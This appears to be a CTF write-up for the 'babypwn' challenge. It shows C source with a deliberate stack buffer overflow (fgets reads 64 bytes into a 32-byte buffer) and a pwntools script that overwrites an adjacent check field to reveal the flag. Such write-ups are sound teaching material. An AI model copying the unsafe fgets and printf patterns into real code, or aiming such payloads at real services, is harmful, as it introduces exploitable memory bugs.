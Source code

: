 # babypwn

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

***

## Solution

Just a simple and easy pwn challenge.

Given a C source code.

<pre class="language-c" data-title="babypwn.c" data-line-numbers><code class="lang-c">#include &#x3C;stdio.h>
#include &#x3C;string.h>
#include &#x3C;unistd.h>

<strong>struct __attribute__((__packed__)) data {
</strong>  char buff[32];
  int check;
};

void ignore(void)
{
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}

int main(void) 
{
  struct data name;
  ignore(); /* ignore this function */

  printf("What's your name?\n");
  fgets(name.buff, 64, stdin);
  sleep(2);
  printf("%s nice to meet you!\n", name.buff);
  sleep(2);
  printf("Binary exploitation is the best!\n");
  sleep(2);
  printf("Memory unsafe languages rely on coders to not make mistakes.\n");
  sleep(2);
  printf("But I don't worry, I write perfect code :)\n");
  sleep(2);

<strong>  if (name.check == 0x41414141) {
</strong>    get_flag();
  }

  return 0;
}

</code></pre>

The program wants us to input a name. Line 41 shows that `if (name.check == 0x41414141)` is true, it will reveal a flag. So basically we need to input 0x41414141, but the function at line 5 says that it has a 32 size of buffer. We need to fill up the buffer first, than put 0x41414141, combine them as one payload as the script below.

{% code title="solve.py" lineNumbers="true" %}
```python
from pwn import *

rem = remote('babypwn.wolvctf.io', 1337)
payload = b'A' * 32 + p32(0x41414141)

rem.sendline(payload)

print(rem.recvall().decode())
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Flag

wctf{pwn\_1s\_th3\_best\_Categ0ry!}
